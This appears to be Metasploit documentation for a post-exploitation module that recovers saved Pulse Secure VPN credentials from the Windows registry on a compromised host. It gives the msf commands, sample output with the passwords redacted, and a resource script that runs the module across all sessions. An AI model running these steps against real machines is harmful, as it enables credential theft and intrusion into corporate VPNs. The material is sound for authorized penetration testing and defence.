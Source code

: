 ## Vulnerable Application

Pulse Secure VPN Client for Windows < 9.0Rx

An end-to-end setup with working Juniper Pulse Secure VPN server, Pulse Secure client on Microsoft Windows, and valid credentials are required for Pulse Secure client to save credentials locally and therefore test this.


## Verification Steps

1. Get a meterpreter on a windows machine that has Pulse Secure client installed.
2. Load the module: `use post/windows/gather/credentials/pulse_secure`
3. Set the correct session on the module.
4. Run the module and enjoy the loot.

## Example Run
**Normal mode**
```
msf > use post/windows/gather/credentials/pulse_secure
msf > set SESSION 1
msf > run
```

Output:

```
[*] Checking for Pulse Secure IVE profiles in the registry
[+] Account Found:
[*]      Username:
[*]      Password: REDACTED
[*]      URI: https://connect.contoso.com/pulse
[*]      Name: Home Working VPN (EU)
[*]      Source: user
[+] Account Found:
[*]      Username:
[*]      Password: REDACTED
[*]      URI: https://connect.contoso.com/pulse
[*]      Name: Home Working VPN (US)
[*]      Source: user
[*] Post module execution completed
```

## Scenarios

**Run on all sessions**
If you wish to run the post against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/pulse_secure")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

## References

TODO
